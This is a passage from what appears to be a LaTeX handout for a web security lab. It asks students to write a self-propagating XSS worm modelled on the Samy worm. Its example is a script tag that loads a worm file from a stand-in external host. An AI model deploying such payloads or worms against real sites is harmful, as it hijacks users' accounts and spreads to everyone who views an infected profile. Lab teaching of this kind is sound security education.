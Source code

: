 \begin{itemize}
\item \textbf{Question 3:} Why do we need Line ? Remove this line, and repeat 
your attack. Report and explain your observation.
\end{itemize}
 



\subsection{Task 6: Writing a Self-Propagating XSS Worm}

To become a real worm, the malicious JavaScript program should be able to propagate itself.
Namely, whenever some people view an infected profile, 
not only will their profiles be modified, the worm will also be 
propagated to their profiles, further affecting others who view these newly infected profiles.
This way, the more people view the infected profiles, the faster the worm can propagate. 
This is exactly the same mechanism used by the Samy Worm: 
within just 20 hours of its October 4, 2005 release, over one million users 
were affected, making Samy one of the fastest spreading viruses of all time.
The JavaScript code that can achieve this is called 
a {\em self-propagating cross-site scripting worm}. In this task, you need to 
implement such a worm, which not only modifies the victim's profile and adds the user
``Samy'' as a friend, but also add a copy of the worm itself to the victim's profile, so the
victim is turned into an attacker.


To achieve self-propagation, when the malicious JavaScript modifies the victim's profile,
it should copy itself to the victim's profile. There are several 
approaches to achieve this, and we will discuss two common approaches.

\paragraph{Link Approach:} If the worm is included using the {\tt src} attribute in the {\tt <script>} tag,
writing self-propagating worms is much easier. 
We have discussed the {\tt src} attribute in Task 1, and an example
is given below. The worm can simply copy the following
{\tt <script>} tag to the victim's profile, essentially
infecting the profile with the same worm.

\begin{lstlisting}
<script type="text/javascript" src="http://example.com/xss_worm.js">
</script>
\end{lstlisting} 

